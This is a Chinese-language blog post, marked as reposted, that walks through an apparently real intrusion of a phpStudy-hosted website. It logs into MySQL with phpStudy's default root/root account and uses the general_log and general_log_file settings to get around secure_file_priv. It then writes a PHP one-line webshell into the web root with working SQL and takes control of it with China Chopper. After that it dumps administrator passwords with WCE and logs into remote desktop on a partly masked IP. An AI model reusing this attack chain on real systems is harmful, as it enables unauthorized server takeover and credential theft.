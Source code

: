 +++
title = "Mysql root账号general_log_file方法获取webshell"
author = "Hzllaga"
date =  2018-01-21
description = "现实情况中，由于Mysql版本较高以及配置文件的缘故，往往无法直接通过root账号写入网站真实路劲下获取webshell；通过研究发现其实可以通过一些方法绕过，同样可以获取webshell。"
categories = ["转载"]
tags = ["MySQL"]
+++
现实情况中，由于Mysql版本较高以及配置文件的缘故，往往无法直接通过root账号写入网站真实路劲下获取webshell；通过研究发现其实可以通过一些方法绕过，同样可以获取webshell

在前面的phpmyadmin漏洞利用专题中介绍了如何通过root账号来获取webshell，但在现实情况中，由于Mysql版本较高以及配置文件的缘故，往往无法直接通过root账号写入网站真实路劲下获取webshell；通过研究发现其实可以通过一些方法绕过，同样可以获取webshell，下面将整个渗透过程和方法跟大家分享。
## 信息收集
目标站点访问其子域名，如图1所示，发现该站点是使用phpStudy2014搭建的，通过phpinfo信息泄露，可以获取网站的绝对路径“D:/phpStudy/WWW”，服务器为Windows Server 2003 ，phpstudy探针文件“D:/phpStudy/WWW/l.php”。
![](https://cdn.wtfsec.org/img/20200223160610.jpg)
## 获取root账号和密码
phpStudy默认账号为root/root，使用其进行登录，成功登录系统，如果不是这个账号和密码，可以使用phpmyadmin暴力破解工具进行暴力破解，如图2所示，登录后看目前使用的数据应该是www数据库。查看mysql数据库中的user表中的数据，如图3所示，清一色的相同密码。
![](https://cdn.wtfsec.org/img/20200223160711.jpg)
图2获取root账号和密码
![](https://cdn.wtfsec.org/img/20200223160731.jpg)
图3 mysql数据库user表多个账号使用相同密码
## 直接导出webshell失败
既然知道了网站真实路径“D:/phpStudy/WWW”和root账号，最简单的方法就是直接导出webshell：
{{< highlight sql >}}
select ‘<?php @eval($_POST[cmd]);?>’INTO OUTFILE ‘D:/phpStudy/WWW/cmd.php’{{< /highlight >}}，如图4所示，在以往是顺利成章的获取webshell，但这次显示错误信息：

The MySQL server is running with the --secure-file-priv option so it cannot execute this statement

意思是Mysql服务器运行“–secure-file-priv”选项，所以不能执行这个语句。
![](https://cdn.wtfsec.org/img/20200223161001.jpg)
图4导出webshell失败
## secure_file_priv选项
在mysql中使用secure_file_priv配置项来完成对数据导入导出的限制，前面的webshell导出就是如此，在实际中常常使用语句来导出数据表内容，例如把mydata.user表的数据导出来：
{{< highlight sql >}}
select * from mydata.user into outfile '/home/mysql/user.txt';
{{< /highlight >}}
在mysql的官方给出了“–secure-file-priv=name Limit LOAD DATA, SELECT … OUTFILE, and LOAD_FILE() to files within specified directory”解释，限制导出导入文件到指定目录，其具体用法：
1. 限制mysqld不允许导入和导出
{{< highlight sql >}}
mysqld --secure_file_prive=null
{{< /highlight >}}
2. 限制mysqld的导入和导出只能发生在/tmp/目录下
{{< highlight sql >}}
mysqld --secure_file_priv=/tmp/
{{< /highlight >}}
3. 不对mysqld 的导入和导出做限制，在/etc/my.cnf文件中不指定值。
## 通过general_log和general_log_file来获取webshell
mysql打开general log之后，所有的查询语句都可以在general log文件中以可读的方式得到，但是这样general log文件会非常大，所以默认都是关闭的。有的时候为了查错等原因，还是需要暂时打开general log的。换句话说general_log_file会记录所有的查询语句，以原始的状态来显示，如果将general_log开关打开，general_log_file设置为一个php文件，则查询的操作将会全部写入到general_log_file指定的文件，通过访问general_log_file指定的文件来获取webshell。在mysql中执行查询：
{{< highlight sql >}}
set global general_log='on';
SET global general_log_file='D:/phpStudy/WWW/cmd.php';
SELECT '<?php assert($_POST["cmd"]);?>';
{{< /highlight >}}
如图5，图6和图7所示，分别打开general_log开关，设置general_log_file文件，执行查询。
![](https://cdn.wtfsec.org/img/20200223162254.jpg)
图5打开general_log开关
![](https://cdn.wtfsec.org/img/20200223162444.jpg)
图6设置general_log_file文件
![](https://cdn.wtfsec.org/img/20200223162456.jpg)
图7执行webshell查询
## 获取webshell
在浏览器中打开地址http://******.hy******.cn/cmd.php，如图8所示，会显示mysql查询的一些信息，由于一句话后门通过查询写入了日志文件cmd.php，因此通过中国菜刀一句话后门可以成功获取webshell，如图9所示。
![](https://cdn.wtfsec.org/img/20200223162530.jpg)
图8查看文件
![](https://cdn.wtfsec.org/img/20200223162551.jpg)
图9获取webshell
## 服务器密码获取
1. 查看服务器权限及用户权限
通过中国菜刀一句话后门管理工具，打开远程终端命令执行，如图10所示，分别执行“whomai”、“net user”、“net localgroup administrator”命令来查看当前用户的权限，当前系统所有用户，管理员用户情况。
![](https://cdn.wtfsec.org/img/20200223162656.jpg)
图10查看当前用户权限
2. 上传wce密码获取工具
直接执行g86.exe顺利获取管理员密码，如图11所示，开始执行g64.exe没有成功是因为系统是32位操作系统。
![](https://cdn.wtfsec.org/img/20200223162718.jpg)
图11获取管理员密码
## 获取远程终端端口
通过命令 tasklist /svc | find “TermService”及netstat -ano | find “1792″ 命令来获取当前的3389端口为8369端口，tasklist /svc | find “TermService”获取的是远程终端服务对应的进程号，netstat -ano | find “1792″查看进程号1792所对应的端口，在实际过程中1792值会有变化。
![](https://cdn.wtfsec.org/img/20200223162746.jpg)
图12获取3389端口
## 登录3338
打开mstsc，在连接地址中输入202.58.***.***:8369，输入获取的管理员和密码进行登录，如图13所示，成功登录服务器。
![](https://cdn.wtfsec.org/img/20200223162813.jpg)
## 总结
1. 查看genera文件配置情况
{{< highlight sql >}}
show global variables like "%genera%";
{{< /highlight >}}
2. 关闭general_log
{{< highlight sql >}}
set global general_log=off;
{{< /highlight >}}
3. 通过general_log选项来获取webshell
{{< highlight sql >}}
set global general_log='on';
SET global general_log_file='D:/phpStudy/WWW/cmd.php';
SELECT '<?php assert($_POST["cmd"]);?>';
{{< /highlight >}}




